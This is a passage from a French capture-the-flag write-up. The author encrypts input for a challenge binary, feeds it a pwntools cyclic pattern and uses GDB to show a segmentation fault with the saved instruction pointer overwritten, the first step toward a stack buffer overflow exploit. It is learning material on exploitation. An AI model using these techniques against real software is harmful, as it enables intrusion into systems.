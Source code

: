 Et ainsi chiffrer une citation que le binaire du CTF décode correctement :

```bash
$ python crypt.py quote.txt thisisdope
$ ./level4 quote.txt.crypt thisisdope
Message: "Always forgive your enemies; nothing annoys them so much."
- Oscar Wilde

```

## Hammer time

Si on a un buffer sur la stack il a forcément ses limites. J'utilise `pwntools` pour générer une chaine de caractères sans répétitions qui me permettra de savoir à quel index sont présents tel ou tel pattern :

```python
>>> from pwnlib.util.cyclic import cyclic_gen
>>> g = cyclic_gen()
>>> g.get(5000)
```

Cela me génère une chaine de caractères de 5000 octets que je place dans un fichier et que je chiffre avec mon code Python.

J'appelle alors le binaire du CTF avec les bons arguments dans GDB :

```bash
(gdb) r ./overflow.txt.crypt password
Starting program: /tmp/ctf/level4 ./overflow.txt.crypt password
Message: bebabeca--- snip ---byadbzadcbadccadcdadcea
WID=32505863

Program received signal SIGSEGV, Segmentation fault.
0x74636169 in ?? ()
(gdb) info reg
eax            0x0                 0
ecx            0x80cb700           135051008
edx            0x80cb700           135051008
ebx            0x0                 0
esp            0xffffcc20          0xffffcc20
ebp            0x74636168          0x74636168
esi            0x8048c50           134515792
edi            0x59403aa2          1497381538
eip            0x74636169          0x74636169
eflags         0x10292             [ AF SF IF RF ]
cs             0x23                35
ss             0x2b                43
ds             0x2b                43
es             0x2b                43
fs             0x0                 0
gs             0x63                99
(gdb) x/s 0x80cb700
0x80cb700 <main_arena>: ""
(gdb) x/s $esp
0xffffcc20:     "jactkactlactmactn---snip ---cviacv"...
```
